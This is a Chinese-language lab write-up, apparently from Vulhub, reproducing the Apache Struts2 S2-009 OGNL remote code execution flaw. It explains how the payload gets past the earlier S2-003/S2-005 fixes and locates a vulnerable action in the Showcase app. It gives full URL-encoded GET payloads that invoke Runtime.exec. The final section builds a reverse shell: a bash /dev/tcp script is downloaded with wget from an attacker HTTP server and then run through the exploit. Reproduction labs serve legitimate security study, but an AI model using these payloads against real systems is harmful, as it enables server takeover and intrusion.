



Apache Struts2 S2-009 远程代码执行漏洞¶
漏洞描述¶
前置阅读： 这个漏洞再次来源于 s2-003、s2-005。了解该漏洞原理，需要先阅读 s2-005 的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md
参考 Struts2漏洞分析之Ognl表达式特性引发的新思路，文中说到，该引入 ognl 的方法不光可能出现在这个漏洞中，也可能出现在其他 java 应用中。
Struts2 对 s2-003 的修复方法是禁止静态方法调用，在 s2-005 中可直接通过 OGNL 绕过该限制，对于 # 号，同样使用编码 \u0023 或 \43 进行绕过；于是 Struts2 对 s2-005 的修复方法是禁止 \ 等特殊符号，使用户不能提交反斜线。
但是，如果当前 action 中接受了某个参数 example，这个参数将进入 OGNL 的上下文。所以，我们可以将 OGNL 表达式放在 example 参数中，然后使用 /helloword.acton?example=<OGNL statement>&(example)('xxx')=1 的方法来执行它，从而绕过官方对 #、\ 等特殊字符的防御。
漏洞详情:
漏洞影响¶
影响版本: 2.1.0 - 2.3.1.1
环境搭建¶
Vulhub 执行以下命令启动 s2-009 测试环境：
docker-compose build
docker-compose up -d
漏洞复现¶
测试环境是一个 struts2 的“功能展示”网站 Struts Showcase，代码很多，我们的目标是去找一个接受了参数，参数类型是 string 的 action。
先对 S2-009.war 进行解压（我用 binwalk，其实直接 zip 就可以），可见源码都在 WEB-INF/src 目录中，我一般找 ajax 相关的代码，这些代码一般逻辑比较简单。
找到一个 WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java：
public class Example5Action extends ActionSupport {
private static final long serialVersionUID = 2111967621952300611L;
private String name;
private Integer age;
public String getName() { return name; }
public void setName(String name) { this.name = name; }
public Integer getAge() { return age; }
public void setAge(Integer age) { this.age = age; }
@Override
public String execute() throws Exception {
return SUCCESS;
}
}
代码没有更简单了，其接受了 name 参数并调用 setName 将其赋值给私有属性 this.name，正是符合我们的要求。然后去 WEB-INF/src/java/struts-ajax.xml 看一下 URL 路由：
<package name="ajax" extends="struts-default">
...
<action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
<result name="input">/ajax/tabbedpanel/example5.jsp</result>
<result>/ajax/tabbedpanel/example5Ok.jsp</result>
</action>
...
</package>
name=example5，所以访问 http://your-ip:8080/ajax/example5.action 即可访问该控制器。按照原理中说到的方法，将 OGNL 利用代码放在 name 参数里，访问该 URL：
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/awesome_poc%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close

由于该 POC 没有回显，所以调用的是 touch /tmp/awesome_poc 命令，查看/tmp 目录发现已经成功：

反弹 shell¶
编写 shell 脚本并启动 http 服务器：
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
上传 shell.sh 文件的命令为：
wget 192.168.174.128/shell.sh
上传 shell.sh 文件的 Payload 为：
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27wget%20192.168.174.128/shell.sh%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
执行 shell.sh 文件的命令为：
bash /usr/local/tomcat/shell.sh
执行 shell.sh 文件的 Payload 为：
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27bash%20/usr/local/tomcat/shell.sh%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
成功接收反弹 shell：
